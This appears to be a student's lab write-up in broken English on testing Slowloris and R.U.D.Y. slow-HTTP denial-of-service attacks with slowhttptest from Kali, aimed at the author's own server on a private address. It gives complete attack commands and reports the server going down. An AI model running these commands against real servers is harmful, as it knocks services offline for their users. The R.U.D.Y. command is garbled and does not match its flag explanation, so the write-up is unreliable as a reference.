


# Lab: HTTP Testing from Kali Book
Im reading book about kali, and now im on network testing theme. When im was read abt http testing, i found interesting to make lab where i vibe code a simple http server, and after this will test some techniques on this. 

## what used
- vibecoded http server as target
- Kali Linux as attacker
- Techniques tested: R-U.D.Y, Slow Read, slowloris

# Lab started
### slow loris
**Slow loris its DoS attack when you dont spam alot packages, its when u spam "dont closed" packages to a server, and then send little bits in order to server doesnt stop** 

from kali i used
```bash
slowhttptest -H -c 1000 -o targetserver -v1 -g -r 100 -u http://192.168.122.1:8080
```
where -H its slow loris attack,
- с 1000 its we trying to send 1000 packages at all,
- o targetserver its name for file prefix,
- v1 its how many info we see in console, 
- g program will be watch of situation of sockets,
- r 100 equal 100 packages for second

## result
**Server downed successfully**


### R.U.D.Y. (R-U-Dead-Yet?)
When I first tried the command in Kali, it didn't work as expected. I realized the issue was in the server code, which wasn't processing the request body correctly. 

After fixing the server, I refined the attack command to be more effective by explicitly setting the POST method and a long content length to keep the connections occupied:

```bash
slowhttptest -g -o newrudy -B -u [http://192.168.122.1:8080](http://192.168.122.1:8080) -c 50 -r 10 -i 5 -t POST - 500
```

Key changes:

 -B: Enables R.U.D.Y. mode (Slow Body attack).

 -t POST: Uses the POST method (required for this attack).

 -s 5000: Sets the Content-Length header to 5000 bytes, making the server wait for a lot of data.

## result
**Server downed successfully**

